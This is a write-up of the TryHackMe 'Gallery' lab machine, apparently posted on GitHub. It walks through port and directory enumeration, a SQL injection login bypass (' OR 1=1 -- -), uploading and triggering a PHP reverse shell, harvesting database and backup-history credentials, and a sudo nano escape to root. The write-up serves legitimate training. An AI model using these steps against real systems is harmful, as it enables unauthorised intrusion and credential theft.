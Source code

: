 # Gallery (THM)

- https://tryhackme.com/room/gallery666
- March 13, 2023
- easy

---

- easy at web exploit and not easy to get root access

## Enumeration

### Nmap

```
PORT     STATE SERVICE    REASON    VERSION
80/tcp   open  http       syn-ack   Apache httpd 2.4.29 (Ubuntu)
8080/tcp open  http-proxy syn-ack   Apache httpd 2.4.29 (Ubuntu)
```

### HTTP 80

- Apache default page
- Directory brute frocing in ffuf 
    - `gallery` directory -> redirect to login page

### HTTP 8080

- redirect to above `gallery/login.php` page
- Directory brute frocing in ffuf 

```
albums
archives
assets
build
classes
config
create_account
database
dist
home
inc
login
plugins
report -> 200
uploads
user
```

- only report is 200 and others are 403 and redirect to login page
- nothing to do here and have to do something at login page
- first, I tried to enter like `admin:admin`, `admin:password`, `guest:guest`, `guest:password`, etc
- not success
- try sql injection like `' OR 1=1 -- -` and get admin access at website

![](screenshots/2023-03-13-17-30-41.png)

![](screenshots/2023-03-13-17-31-01.png)

- walkthrough the website and found upload area at `http://$IP/gallery/?page=albums/images&id=4`
- previously, I found that `index.php` and it is `php` server and try to upload `php reverse shell`

- successfully uploaded

![](screenshots/2023-03-13-17-36-50.png)

## User Access

### User www-data

- listen with nc at local machine and open the image or (for me `curl http://10.10.127.86/gallery/uploads/user_1/album_4/1678705500.php`) and get `www-data` shell

![](screenshots/2023-03-13-17-38-38.png)

- nothing found special and run linpeas
- even running with linpeas, it is hard to find
- so need to explore deeply under `/var/www/html` files

- in initialize.php file
  
![](screenshots/2023-03-13-18-09-35.png)

- enter mysql database to check 

```sh
mysql -u gallery_user -p
# enter password
show databases; # found gallery_db
use gallery_db;
show tables; # find users table
select * from users;
```

`admin:a228b12a08b6527e7978cbe5d914531c`
- but can't crack it.
- but I found some interesting directory from linpeas result

![](screenshots/2023-03-13-18-07-30.png)

- `mike_home_backup` shouldn't be here

![](screenshots/2023-03-13-18-18-37.png)

- from `.bash_history` file, found potential password for user mike

### User Mike

```sh
mike@gallery:/var/backups/mike_home_backup$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

- permission of rootkit.sh

```sh
mike@gallery:/var/backups/mike_home_backup$ ls -la /opt/rootkit.sh
-rw-r--r-- 1 root root 364 May 20  2021 /opt/rootkit.sh
```
- can't edit this file 
- content in rootkit.sh

```sh
mike@gallery:/var/backups/mike_home_backup$ cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

## Root Access

- we can use `nano` to get root access (according to GTFObin)
- run like

```sh
sudo /bin/bash /opt/rootkit.sh # then enter
read # to activate nano and it will open some text file
# inside text file
# Ctrl+r , Ctrl+x and enter
reset; sh 1>&0 2>&0
```
- get root access

---